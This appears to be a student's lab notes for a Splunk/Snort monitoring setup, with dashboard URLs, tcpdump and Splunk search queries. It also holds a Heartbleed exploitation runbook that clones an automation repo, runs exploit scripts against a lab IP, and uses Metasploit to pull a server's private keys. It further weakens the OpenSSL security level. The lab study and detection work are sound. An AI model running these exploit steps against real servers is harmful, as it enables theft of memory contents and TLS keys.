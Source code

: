 ## splunk server start

sudo /home/etudiant/splunk/bin/splunk restart 


## splunk UF start : FW

sudo /opt/splunkforwarder/bin/splunk restart 


<<< vitrygtr

###### troubleshoot tcadump
ps -aux | grep tcpdump
sudo systemctl stop tcpdump 
sudo systemctl start tcpdump
sudo systemctl status tcpdump

sudo crontab -e  
sudo crontab -l  



## launching dashboards

- home page
http://splunk:8000/fr-FR/app/launcher/home

- TOP DNS QUERIES
http://splunk:8000/fr-FR/app/DNS_Insight/top_queries?earliest=-2m&latest=now&form.src=*&form.dest=*




- snort logs

http://splunk:8000/fr-FR/app/SplunkforSnort/event_search

- snort logs : rapport
- top 10 des signatures :
http://splunk:8000/fr-FR/app/SplunkforSnort/report?s=%2FservicesNS%2Fnobody%2FSplunkforSnort%2Fsaved%2Fsearches%2FTop%252010%2520signatures&sid=admin__nobody__SplunkforSnort__RMD5bd4c9c15bd2e7f88_at_1627208547_2&display.page.search.mode=smart&dispatch.sample_ratio=1&q=search%20sourcetype%3D%22snort%22%20%7C%20top%2010%20name%20%7C%20fields%20-%20percent&earliest=&latest=&display.general.type=statistics

- top 10 des classifications :

http://splunk:8000/fr-FR/app/SplunkforSnort/report?s=%2FservicesNS%2Fnobody%2FSplunkforSnort%2Fsaved%2Fsearches%2FTop%252010%2520classifications&sid=admin__nobody__SplunkforSnort__RMD5b624049bf7eb4301_at_1627208572_3&display.page.search.mode=smart&dispatch.sample_ratio=1&earliest=&latest=&display.general.type=statistics

- top 10 des adresses ip de destination :

http://splunk:8000/fr-FR/app/SplunkforSnort/report?s=%2FservicesNS%2Fnobody%2FSplunkforSnort%2Fsaved%2Fsearches%2FTop%252010%2520destination%2520IPs&sid=admin__nobody__SplunkforSnort__RMD53294bb425a414a5f_at_1627208593_4&display.page.search.mode=smart&dispatch.sample_ratio=1&earliest=&latest=&display.general.type=statistics



- top 10 des adresses ports de destination :


http://splunk:8000/fr-FR/app/SplunkforSnort/report?s=%2FservicesNS%2Fnobody%2FSplunkforSnort%2Fsaved%2Fsearches%2FTop%252010%2520destination%2520ports&sid=admin__nobody__SplunkforSnort__RMD582a572f9f3640ec7_at_1627208633_6&display.page.search.mode=smart&dispatch.sample_ratio=1&earliest=&latest=&display.general.type=statistics


- top 10 des adresses ports source :
http://splunk:8000/fr-FR/app/SplunkforSnort/report?s=%2FservicesNS%2Fnobody%2FSplunkforSnort%2Fsaved%2Fsearches%2FTop%252010%2520source%2520ports&sid=admin__nobody__SplunkforSnort__RMD5009e39aba4ac03b0_at_1627208619_5&display.page.search.mode=smart&dispatch.sample_ratio=1&q=search%20sourcetype%3D%22snort%22%20%7C%20top%2010%20src_port&earliest=&latest=&display.general.type=statistics



- dns insight
http://splunk:8000/fr-FR/app/DNS_Insight/overview?earliest=-30m&latest=now&form.src=*&form.dest=*

## launching snort
sudo /usr/sbin/snort -A console -i enp0s3 -u snort -c /etc/snort/snort.conf -A full  


## launching exploit



## heartbleed exploit

# if manually installed
##### on all server
sudo apt-get update -y && sudo apt-get install -y git && git clone https://github.com/amineAUPEC/heartbleed-automation.git && cd heartbleed-automation/

##### vulnerable server part :



sudo ./bash/heartbleed-vulnerable-server.sh



##### injection server -- simulate client request


cd /home/etudiant/heartbleed-example && python stimulate_server.py -a $ip 



##### pentest server
cd heartbleed-automation/ && sudo chmod +x ./bash/heartbleed-vulnerable-pentest.sh
#### set IP
nano ./conffiles/hostlist.txt && nano ./bash/heartbleed-vulnerable-pentest.sh
# execute file
sudo ./bash/heartbleed-vulnerable-pentest.sh
cd /home/etudiant/heartbleed-example
watch sudo python heartbleed.py 192.168.1.173 -p 443


################ + d'information décodée
cd ./python/ && chmod +x exploit.python
watch sudo python exploit.py 192.168.1.173 -p 443  
10.10.3.155


##### exploit via metasploit
sudo apt-get update -y && sudo apt-get install -y git && git clone https://github.com/amineAUPEC/heartbleed-automation.git 
cd /home/etudiant/heartbleed-automation/bash/msf/ && sudo chmod +x metasploit_heartbleed.sh && sudo ./metasploit_heartbleed.sh










#

## dont know





##### vulnerable server part :

<!-- sudo chmod +x ./bash/heartbleed-vulnerable-server.sh && sudo ./bash/heartbleed-vulnerable-server.sh -->


##### injection server -- simulate client request
sudo apt-get update -y && sudo apt-get install -y git python && git clone https://github.com/amineAUPEC/heartbleed-automation.git && cd heartbleed-automation/
cd /home/etudiant && git clone https://github.com/injcristianrojas/heartbleed-example.git
sudo sed -E -i 's/CipherString = DEFAULT@SECLEVEL=2/CipherString = DEFAULT@SECLEVEL=1/' /etc/ssl/openssl.cnf

##### vulnerable server via BWAPP Docker container
sudo hostnamectl set-hostname bwapp
sudo chmod +x ./bash/install-docker.sh && sudo ./bash/install-docker.sh
sudo docker run -d -p 80:80 -p 8443:8443 raesene/bwapp && ip a



##### exploit via metasploit for private KEYS

cd /home/etudiant/heartbleed-automation/bash/msf/ && sudo chmod +x metasploit_heartbleed_keys.sh && sudo ./metasploit_heartbleed_keys.sh

- verify on server:
  - connect to the container
   dockerps_id=$(sudo docker ps | grep heartbleed | tr -s ' ' | cut -f 1 -d ' ') 
   dockerps_id=$(sudo docker exec -it $dockerps_id bash) 

watch /etc/apache2/ssl/apache.key

watch 'cat /etc/apache2/ssl/apache.key; cat /etc/apache2/ssl/apache.crt'





## LIST OF OPTIONS for COMMANDS SPLUNK

earliest=-15m 

####  LIST OF COMMANDS SPLUNK
tcpdump
* host=firewall sourcetype="port53tttt" source="/var/log/tcpdump.log"
tcpdump DNS 
* host=firewall sourcetype="port53tttt" source="/var/log/tcpdump.log" *.53


tcpdump PORT 80 HTTP
* host=firewall sourcetype="port53tttt" source="/var/log/tcpdump.log" *.80
tcpdump PORT 443 HTTPS
* host=firewall sourcetype="port53tttt" source="/var/log/tcpdump.log" *.443
tcpdump HTTPS IPV6 UDP
* host=firewall sourcetype="port53tttt" source="/var/log/tcpdump.log" UDP
* 
tcpdump HTTPS IPV6 TCP  Win ack
* host=firewall sourcetype="port53tttt" source="/var/log/tcpdump.log" win OR ack

DNS QUERY
* sourcetype=tshark:port53 OR sourcetype=port53tttt src=* dest=*| fields dns_len query length reply_code Len message_type record_type transport | search message_type=QUERY 
| table *